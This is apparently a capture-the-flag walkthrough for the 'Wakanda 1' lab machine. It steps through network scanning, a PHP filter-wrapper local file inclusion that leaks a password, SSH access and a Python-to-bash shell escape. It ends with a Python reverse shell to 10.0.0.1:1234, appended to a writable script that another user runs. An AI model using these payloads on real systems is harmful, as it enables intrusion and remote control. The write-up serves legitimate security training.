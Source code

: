 # Wakanda 1


##[step 1] Finding Ip Address
> nmap [nmap -sT 192.168.0.0/24]
> netdiscover -r 192.168.0.0/24
> arp-scan -l

## [step 2] Finding Port 
> nmap [nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.56.101]
  nikto [nikto -h 192.168.56.101]

## [step 3] Directory
> directory buster [dirb  192.168.156.101]
  nikto [nikto -h 192.168.56.101]

## [step 4] web pages analysis and decoding
> curl 
  curl -I 192.168.56.101/fr.php
  curl -I 192.168.56.101/index.php
### As there was this in line in source page :  <!-- <a class="nav-link active" href="?lang=fr">Fr/a> -->
#### The commented HTML seems to suggest LFI vulnerability is present with the lang parameter.
#### So try this: 
> [http://192.168.56.101/index.php] this is homepage.So we'll try  LFI/RFI attack,using Wrappers.
Wrapper php://filter
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

> After [http://192.168.56.101/index.php?lang=php://filter/convert.base64-encode/resource=index]
there are  encoded words.

> According to PHP official documentation, PHP supports four categories of filters.
>

   - String Filters
   - Conversion Filters
   - Compression Filters
   - Encryption Filters

##### Of the above, base64-encode filter from the conversion filter can be used to retrieve arbitrary server file through LFI. It is also possible to use zlib.inflate or bzip2.compress from the compression filters to retrieve server files without executing them. But I prefer to use base64-encode because of its ease of use

> curl http://192.168.56.101/index.php?lang=php://filter/convert.base64-encode/resource=index | head -n 1 | base64 -d
We'll get php code in which there is password.

## [Step 5] ssh
> try login through ssh
> ssh -p3333 mamadou@192.168.56.101

### we'll get a python shell after login

``` 
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Aug  3 15:53:29 2018 from 192.168.56.1
Python 2.7.9 (default, Jun 29 2016, 13:08:31) 
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 
```

> try to get bash shell by python command : [>>> import os; os.system("/bin/bash")
]
```
mamadou@Wakanda1:~$ ls
flag1.txt
mamadou@Wakanda1:~$ cat flag.txt
cat: flag.txt: No such file or directory
mamadou@Wakanda1:~$ cat flag1.txt

Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc
mamadou@Wakanda1:~$ ls
flag1.txt
mamadou@Wakanda1:~$ ls -la
total 24
drwxr-xr-x 2 mamadou mamadou 4096 Aug  5 02:24 .
drwxr-xr-x 4 root    root    4096 Aug  1 15:23 ..
lrwxrwxrwx 1 root    root       9 Aug  5 02:24 .bash_history -> /dev/null
-rw-r--r-- 1 mamadou mamadou  220 Aug  1 13:15 .bash_logout
-rw-r--r-- 1 mamadou mamadou 3515 Aug  1 13:15 .bashrc
-rw-r--r-- 1 mamadou mamadou   41 Aug  1 15:52 flag1.txt
-rw-r--r-- 1 mamadou mamadou  675 Aug  1 13:15 .profile
mamadou@Wakanda1:~$ pwd
/home/mamadou
```
```
mamadou@Wakanda1:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
avahi-autoipd:x:107:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
mamadou:x:1000:1000:Mamadou,,,,Developper:/home/mamadou:/usr/bin/python
devops:x:1001:1002:,,,:/home/devops:/bin/bash
mamadou@Wakanda1:~$ cat flag1.txt

Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc
mamadou@Wakanda1:~$ locate flag2.txt
/home/devops/flag2.txt
mamadou@Wakanda1:~$ cat /home/devops/flag2.txt
cat: /home/devops/flag2.txt: Permission denied
mamadou@Wakanda1:~$ ls -al /home/devops/
total 24
drwxr-xr-x 2 devops developer 4096 Aug  5 02:25 .
drwxr-xr-x 4 root   root      4096 Aug  1 15:23 ..
lrwxrwxrwx 1 root   root         9 Aug  5 02:25 .bash_history -> /dev/null
-rw-r--r-- 1 devops developer  220 Aug  1 15:23 .bash_logout
-rw-r--r-- 1 devops developer 3515 Aug  1 15:23 .bashrc
-rw-r----- 1 devops developer   42 Aug  1 15:57 flag2.txt
-rw-r--r-- 1 devops developer  675 Aug  1 15:23 .profile
mamadou@Wakanda1:~$ id
uid=1000(mamadou) gid=1000(mamadou) groups=1000(mamadou)
mamadou@Wakanda1:~$ 
```
> locate flag2.txt by typing [ locate flag2.txt ] 
>
> find devops user by typing [ find / -user devops ]
>
> we'll get many file directories but all are Permission Denied.
>
> in the first line we got [/srv/.antivirus.py]
>
> try to get into that directory.
>
```
mamadou@Wakanda1:~$ ls -al /srv
total 12
drwxr-xr-x  2 root   root      4096 Aug  1 17:52 .
drwxr-xr-x 22 root   root      4096 Aug  1 13:05 ..
-rw-r--rw-  1 devops developer   36 Aug  1 20:08 .antivirus.py
mamadou@Wakanda1:~$ more /srv/.antivirus.py
open('/tmp/test','w').write('test')
```
> when this script is ran this will write to /temp/test,the temp folder is used for startup functionality. to get access use shell.
>
> try using python shell.
>
```
open('/tmp/test','w').write('test')

import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",1234)) 
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])  
```







